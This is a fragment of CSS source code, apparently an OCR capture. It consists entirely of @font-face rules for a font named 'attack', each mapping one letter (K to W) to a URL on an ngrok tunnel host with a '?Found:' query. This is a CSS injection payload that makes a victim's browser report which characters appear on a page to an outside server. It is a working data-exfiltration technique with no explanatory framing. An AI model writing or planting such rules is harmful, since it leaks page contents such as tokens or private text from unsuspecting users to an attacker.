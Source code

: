 	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:K');
	unicode-range:U+004B;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:L');
	unicode-range:U+004C;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:M');
	unicode-range:U+004D;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:N');
	unicode-range:U+004E;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:O');
	unicode-range:U+004F;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:P');
	unicode-range:U+0050;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:Q');
	unicode-range:U+0051;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:R');
	unicode-range:U+0052;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:S');
	unicode-range:U+0053;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:T');
	unicode-range:U+0054;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:U');
	unicode-range:U+0055;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:V');
	unicode-range:U+0056;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:W');
	unicode-range:U+0057;
}